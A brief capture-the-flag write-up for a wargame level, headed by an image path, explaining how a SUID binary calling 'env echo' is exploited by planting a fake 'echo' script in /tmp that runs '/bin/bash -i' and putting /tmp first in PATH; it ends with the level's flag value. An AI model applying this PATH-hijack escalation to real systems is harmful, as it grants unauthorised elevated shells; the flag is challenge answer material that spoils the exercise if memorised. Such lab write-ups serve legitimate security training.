 ## Level03

ls found a suid file 

when we execute the file output => exploit me

Using strings on file get us some informations
-strings gives us that the suid calls /usr/bin/env echo Exploit me
-so we can create a new echo in /tmp and change the path to begin with /tmp => export path=“/tmp:$PATH”
-created file in tmp should be like: 
	#!/bin/bash
	
	/bin/bash -i
-chmod +x /tmp/echo
-run ./level03 and boom we are flag03
-launched get flag => qi0maab88jeaj46qoumi7maus
